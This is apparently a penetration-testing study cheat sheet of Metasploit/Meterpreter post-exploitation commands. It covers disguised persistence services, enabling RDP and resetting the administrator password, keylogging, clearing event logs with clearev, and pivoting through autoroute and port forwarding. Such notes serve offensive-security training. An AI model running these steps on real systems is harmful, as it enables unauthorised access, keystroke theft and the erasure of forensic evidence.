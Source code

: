 ## Persistence

need root/admin user

`search platform:windows persistence` - persistence service module is best

try to give it a legit service name that blends in

1. `use windows/local/persistence_service`
2. set up and run
3. `use multi/handler`
4. set up multi/handler with same payload as persistence
5. run multi/handler

## Enabling RDP

get meterpreter session

1. `search enable_rdp`
2. run command on session
3. run a shell
4. find users `net users`
5. `net user administrator password` - change password of admin user
6. use legit credentials to login through rdp that was opened 

## Keylogging

`keyscan_start`
`keyscan_stop`
`keyscan_dump`

## Clearing event logs

Event Viewer Application - application, system, security

`clearev` - meterpreter command to clear logs

## Pivoting 

`run autoroute -s 10.10.10.0/CIDR` - use network id - meterpreter pivoting

only internal msfconsole tools/modules can be used on other targets routed through meterpreter

`portscan/tcp

`portfwd add -l localport -p target_port -r targets ipaddress` - portforward  target so we can use local tools outside of meterpreter - still need meterpreter shell active that routes

1. `ipconfig` - find the internal network id
2. run autoroute on network id
3. use modules to scan target or use meterpreter portfwd to forward the route to local machine and use tools on the localhost and port
4. may need to use bind payload rather than reverse tcp
